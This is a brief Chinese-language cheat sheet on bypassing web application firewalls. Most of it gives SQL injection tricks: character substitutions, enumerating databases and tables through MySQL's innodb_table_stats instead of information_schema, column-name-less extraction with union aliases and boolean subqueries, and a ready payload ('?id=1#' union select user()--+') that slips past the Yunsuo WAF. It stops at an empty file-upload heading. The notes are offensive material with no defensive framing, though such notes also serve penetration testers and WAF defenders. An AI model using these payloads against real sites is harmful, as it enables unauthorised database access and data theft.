 # WAF
---
## 注入

### 通用

1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```

### 云锁

1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可

## 文件上传